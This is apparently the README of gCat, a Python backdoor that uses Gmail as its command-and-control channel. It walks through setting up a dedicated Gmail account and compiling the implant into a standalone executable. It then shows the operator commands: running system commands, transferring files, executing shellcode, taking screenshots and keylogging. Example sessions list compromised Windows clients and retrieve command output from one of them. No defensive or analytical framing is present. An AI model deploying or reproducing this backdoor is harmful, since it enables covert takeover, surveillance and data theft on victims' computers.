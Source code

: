 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.idea/gcat.png" alt="" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

--------------------------------------------------------------------------------------------------

PreReqs
--------
- <a href="https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi">Python 2 (32-bit)</a>
- <a href="https://sourceforge.net/projects/pywin32/files/pywin32/Build%20217/pywin32-217.win32-py2.7.exe/download">PyWin32</a>
- <a href="https://files.pythonhosted.org/packages/52/e5/0ce68034f3441bda11538162796dac5a8e5873e8af5d23aaea65e81c7e51/pyinstaller-2.0.zip">Pyinstaller (<strong>MUST BE VERSION 2</strong>)</a>
- <a href="https://github.com/upx/upx/releases/download/v3.96/upx-3.96-win32.zip">UPX (optional)</a>

      Once you have downloaded the pyinstaller zip file from the link above, unzip it
      and move "implant.py" to the pyinstaller folder from the zip. 
      Ensure python2 is registered in your path then from the pyinstaller folder run:
        
      >  python pyinstaller.py --onefile implant.py

-----------------------------------------------------------------------------------------------------

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
